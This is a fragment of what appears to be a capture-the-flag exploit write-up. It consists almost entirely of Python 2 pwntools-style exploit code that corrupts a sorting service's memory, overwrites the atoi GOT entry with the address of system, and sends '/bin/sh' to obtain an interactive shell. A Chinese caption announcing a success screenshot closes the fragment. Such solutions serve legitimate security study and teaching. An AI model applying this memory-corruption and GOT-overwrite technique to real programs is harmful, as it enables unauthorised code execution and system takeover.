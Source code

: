 ```
      
       #
       t_reload(io, 1)
       sub_query(io, 100)
 
       begin_addr = data_buff + 0x20 + 1 * 4
 
       atoi_got = 0x804d020
       print "atoi_got:", hex(atoi_got)
 
       global_addr = (data_buff &amp; 0xffffff00) + 0x10100
      
       print "global_addr:", hex(global_addr)
       diff = global_addr - begin_addr
       print diff
 
      
       diff_index = (0x100e8 - (0x058 + 4)) / 4
       sub_update(io, diff_index, 0x1000)
       sub_update(io, diff_index + 1, 0x0)
       sub_update(io, diff_index + 2, atoi_got - 0x10)
       sub_update(io, diff_index + 3, 0)
 
       io.gdb_hint()
       sub_quit(io)
       seq = ['q']
       sort2(io, seq, 4)
 
       #if diff &lt; 0:
       #     sub_quit(io)
       #     t_exit(io)
       #     return False
 
       system_addr = struct.unpack("i", struct.pack("I", system_addr))[0]
      
       sub_update(io, 3, system_addr)
       sub_quit(io)
       io.read_until("Choose: ")
       io.writeline("/bin/sh")
 
       io.interact()
 
       return True
 
io = get_io(target)
pwn(io)
```

 

成功截图：
